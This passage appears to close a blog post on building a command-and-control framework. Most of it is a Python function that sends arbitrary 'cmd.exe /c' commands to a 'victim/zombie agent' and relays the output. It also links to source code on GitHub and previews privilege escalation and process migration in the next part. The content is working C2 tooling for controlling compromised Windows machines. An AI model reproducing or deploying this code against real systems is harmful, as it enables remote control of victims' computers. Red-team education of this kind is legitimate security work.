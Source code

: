 > And finally, the code to execute commands on the victim/zombie agent:

```python
if choice == "execute":
            try:
                print("Enter your command you would like to execute on the agent below")
                thecommand=input(":")
                clientlist[selection][1].send(f"c0mm@nd\ncmd.exe /c {thecommand}\n".encode('utf-8'))
                print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
                #clientlist[selection][1].settimeout(4)
                while True:
                    data2=clientlist[selection][1].recv(1024)
                  
                    if not data2 or ":endofoutput:" in data2.decode():
                        endoutput=data2.decode()
                        endoutput = endoutput.replace(":endofoutput:", "")
                        print(endoutput, end='')
                        break
                    #proclist = proclist.decode('UTF-8')
                    #print(proclist)
                    print(data2.decode(), end='')
                input("[+] DONE! Press any key to return...")
            except:
                print(Fore.RED + "[+] Either reached end of output for receiving socket or..." + Fore.WHITE)
                print(Fore.RED + "[!] there was an error sending the command to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```
Source code located in the usual spot:

[https://github.com/g3tsyst3m/CodefromBlog](https://github.com/g3tsyst3m/CodefromBlog)

Also, here's the GIF I used in my X post that demo's some of these new features!  

![c2_part2](https://github.com/user-attachments/assets/debf1b8d-be1f-446f-a62a-e46f2269e565)

Thanks everyone, and be sure to stay tuned for `Part 3` where we explore `getsystem` and `process migration` techniques and incorporate them into our code!